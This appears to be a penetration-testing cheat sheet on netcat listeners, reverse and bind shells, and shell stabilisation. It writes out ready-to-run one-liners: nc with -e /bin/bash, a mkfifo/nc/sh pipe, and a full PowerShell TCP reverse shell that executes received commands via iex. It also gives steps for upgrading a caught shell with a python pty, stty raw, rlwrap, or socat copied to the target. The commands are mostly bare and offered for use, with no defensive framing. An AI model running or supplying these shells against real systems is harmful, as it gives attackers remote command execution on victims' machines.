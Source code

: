 ```nc -lvnp 192.168.1.1 8181``` : Create listener 

```nc <LOCAL-IP> <PORT> -e /bin/bash``` : Execute bash on connection 

```nc 192.168.1.2 8181``` : Bind to listener @ 192.168.1.2:8181

```nc -lvnp <PORT> -e /bin/bash``` : Execute bash on connection to listener. Can be used as bind shell

note: -e is not included in most versions of netcat due to its insecurity. On windows can use a static binary, while on linux we can use.

```mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f``` : bind shell

```mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f``` : reverse shell
  
```powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"``` : powershell reverse shell

Stabilizing netcat reverse shell on linux.
technique 1.

1. python -c 'import pty;pty.spawn("/bin/bash")' : replace python with python2 or python3 where necessary
2. export TERM=xterm : this will give us access to term commands such as clear
3. background the shell using Ctrl + Z. and then do stty raw -echo; fg : turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process.

technique 2.
with rlwrap listener(not installed by default)
1. background the shell using Ctrl + Z. and then do stty raw -echo; fg : turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process.

technique 3.
transfer socat static compiled binary to target machine. (wget on linux or invoke-webrequest on windows)

change your terminal tty size
open another terminal and run stty -a. Note down the values for "rows" and columns:

based on output values type in:

stty rows <number> 
  
stty cols <number>
